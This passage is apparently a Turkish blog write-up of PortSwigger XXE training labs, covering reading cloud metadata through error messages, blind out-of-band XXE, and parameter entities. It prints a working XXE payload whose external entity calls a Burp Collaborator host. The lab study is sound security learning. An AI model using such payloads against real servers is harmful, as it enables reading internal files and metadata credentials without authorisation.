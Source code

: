 Check Stock requestini yakalayıp ilgili endpointe request gönderdiğimizde hata mesajı olarak orda bulunan dosyanın ismi dönmektedir. /lastest/meta-data/… gibi teker teker response’da görüntülenen dosyaları okuduğumzda aranan veri bulunmaktadır.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/PortSwigger/7-XXE/2/1.png){: .align-center}

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/PortSwigger/7-XXE/2/2.png){: .align-center}

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/PortSwigger/7-XXE/2/3.png){: .align-center}

## Lab-3 Blind XXE with out-of-band interaction

Bu laboratuvardaki “Check Stock” fonksiyonu XML inputları parse etmektedir fakat herhangi bir sonuç döndürmemektedir. Lab’ın tamamlanması için dış bir kaynağa HTTP veya DNS lookup requesti gönderilmelidir.

Aşağıdaki XML payload sunucuya gönderildiğinde collaborator sunucusunda bir HTTP veya DNS requesti görüntülemeyi hedeflenmektedir. Çünkü uygulama üzerinde herhangi bir dönüş alınmamaktadır.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://2x086ijwhvxy4tttsqwgmldp1g7bv0.burpcollaborator.net"> ]>
<stockCheck>
<productId>&xxe;</productId>
<storeId>1</storeId>
</stockCheck>
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/PortSwigger/7-XXE/3/1.png){: .align-center}

Aşağıdaki isteklerin görüntülenmesi hedef uygulama tarafında XML payload’ı ile dış bir kaynağa istek atabildiğimizin kanıtı olmaktadır.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/PortSwigger/7-XXE/3/2.png){: .align-center}

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/PortSwigger/7-XXE/3/3.png){: .align-center}




## Lab-4 Blind XXE with out-of-band interaction via XML parameter entities

Bu laboratuvardaki “Check Stock” fonksiyonu XML girdilerini parse etmektedir fakat herhangi bir beklenmedik veriyi göstermemektedir ve iç ağa yapılan istekleri engellemektedir. Lab’ın tamamlanması için dış bir ağa DNS lookup ve HTTP requestleri gönderilmelidir.

External entity tanımını XML ile stockCheck elementi arasına eklenmektedir. Çünkü uygulama XML giriş değerlerini filtrelemektedir. Bu durumlarda XML parametre entity’ler kullanılmaktadır.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/PortSwigger/7-XXE/4/1.png){: .align-center}

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/PortSwigger/7-XXE/4/2.png){: .align-center}
